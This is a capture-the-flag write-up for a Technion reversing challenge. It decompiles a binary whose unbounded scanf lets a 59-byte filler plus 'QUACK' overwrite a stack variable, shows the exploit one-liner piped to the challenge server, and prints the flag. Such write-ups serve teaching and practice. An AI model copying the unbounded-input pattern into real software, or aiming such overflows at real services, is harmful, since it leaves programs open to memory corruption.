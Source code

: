# Faculta Necshevet Identifier v2
Category: Reversing & Binary Exploitation

## Description
> After the failure of the previous version, DuckyDebugDuck created a new version which he says is "quack-proof", and even hid a new flag in it!

A binary file was attached.

## Solution

Let's run the attached file:

```console
root@kali:/media/sf_CTFs/technion/Faculta_Necshevet_Identifier_v2# ./facultaNecshevetIdentifier
My name is DuckyDebugDuck, what's yours? test
Hi test, checking...
You're not from a faculta necshevet, you won't get the flag
```

Just like in the [previous challenge](Faculta_Necshevet_Identifier.md), we must enter the correct name in order to be identified as worthy to get the flag.

Let's check the decompilation with Ghidra:

```c
undefined8 main(void)

{
  int is_equal;
  char user_input [59];
  char expected_name [5];
  
  expected_name._0_4_ = 0x45455754;
  expected_name[4] = 'T';
  printf("My name is DuckyDebugDuck, what\'s yours? ");
  __isoc99_scanf(&DAT_00102032,user_input);
  printf("Hi %s, checking...\n",user_input);
  is_equal = strcmp(expected_name,"QUACK");
  if (is_equal == 0) {
    puts("YOU\'RE FROM A FACULTA NECHSEVET, here\'s the flag: ###############");
  }
  else {
    puts("You\'re not from a faculta necshevet, you won\'t get the flag");
  }
  return 0;
}
```

Again, the program does not limit the user input, allowing us to override variables on the stack:

```assembly
                             DAT_00102032                                    XREF[1]:     main:001011d8(*)  
        00102032 25              ??         25h    %
        00102033 73              ??         73h    s
        00102034 00              ??         00h
```

We need to override `expected_name`, which starts with a value of `TWEET` and needs to be `QUACK` in order for us to read the flag. So, what we'll do is send 59 filler characters to fill up `user_input`, followed by a `QUACK` to override and re-populate `expected_name`:

```console
root@kali:/media/sf_CTFs/technion/Faculta_Necshevet_Identifier_v2# python -c "print('a'*59 + b'QUACK')" | nc ctf.cs.technion.ac.il 4006
My name is DuckyDebugDuck, what's yours? Hi aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaQUACK, checking...
YOU'RE FROM A FACULTA NECHSEVET, here's the flag: cstechnion{qu4ck_0v3rfl0w}
```